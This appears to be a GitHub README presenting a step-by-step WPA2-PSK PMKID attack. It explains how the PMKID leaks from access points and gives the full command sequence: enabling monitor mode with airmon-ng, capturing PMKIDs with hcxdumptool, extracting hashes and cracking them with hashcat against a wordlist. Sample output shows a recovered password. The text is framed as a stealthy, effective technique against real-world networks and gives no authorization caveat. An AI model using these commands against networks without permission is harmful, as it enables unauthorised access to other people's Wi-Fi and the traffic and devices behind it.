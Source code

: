 # 🛡️ WPA2-PSK PMKID Attack – Offline, Clientless Method

## 🔍 What is the PMKID Attack?

The PMKID attack is a stealthy, modern method to recover the WPA2-PSK **without capturing a full 4-way handshake** and **without requiring any connected client**.

It exploits a feature in some access points that leak the **PMKID** in the first EAPOL message.

---

## 💡 Why use PMKID?

- ✅ No deauths
- ✅ No connected clients
- ✅ Stealthy & passive
- ✅ Fully offline cracking
- ✅ Faster and more scriptable than handshake capture

---

## 🧠 How It Works

The **Pairwise Master Key Identifier (PMKID)** is computed from:

- The **SSID**
- The **MAC address of the AP (BSSID)**
- The **Pre-Shared Key (PSK)**

If the AP includes the PMKID in EAPOL frames, it can be captured directly and cracked offline — no handshake needed.

---

## ⚙️ Required Tools

- `hcxdumptool` – captures PMKID from the air  
- `hcxpcapngtool` – extracts the hash  
- `hashcat` – cracks the hash offline

---

## 🧭 Attack Flow

### 1. Enable monitor mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0

2. Capture PMKID

sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1

Let it run for a while and passively collect PMKID packets.
3. Extract hash

hcxpcapngtool -o pmkid_hash.txt pmkid.pcapng

4. Crack the hash

hashcat -m 16800 pmkid_hash.txt rockyou.txt

    -m 16800: WPA-PMKID mode

    rockyou.txt: your wordlist

🧪 Example Output

Session..........: hashcat
Hash.Type........: WPA-PMKID-PBKDF2
Status...........: Cracked
Password.........: supersecurewifi

📌 Notes

    Not all APs expose PMKID — some are immune

    Best results on modern routers (802.11i)

    Still widely effective in real-world networks

This is a passive, elegant, and powerful technique.
No noise. No clients. Just results.

Next up: Rogue APs 🔥
